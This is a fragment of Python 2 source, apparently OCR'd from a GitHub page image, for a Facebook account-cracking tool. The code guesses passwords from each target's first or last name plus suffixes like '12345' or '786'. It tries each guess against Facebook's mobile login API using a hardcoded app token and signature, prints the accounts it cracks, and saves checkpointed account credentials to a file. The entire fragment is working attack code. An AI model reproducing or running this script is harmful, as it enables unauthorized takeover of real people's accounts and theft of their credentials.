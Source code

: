							if 'access_token' in q:
								print '\x1b[1;96m[\x1b[1;92mValid_OK\x1b[1;58m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96m[\x1b[1;93mInvalid_CP\x1b[1;58m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + '12345'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;96m[\x1b[1;92mValid_OK\x1b[1;58m]\x1b[1;58m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96m[\x1b[1;93mInvalid_CP\x1b[1;58m]\x1b[1;58m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + '123456'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;96m[\x1b[1;92mValid_OK\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;58m|\x1b[1;97m ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96m[\x1b[1;93mInvalid_CP\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;58m|\x1b[1;97m ' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '786'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;96m[\x1b[1;92mValid_OK\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;58m|\x1b[1;97m ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;96m[\x1b[1;93mInvalid_CP\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;58m|\x1b[1;97m ' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")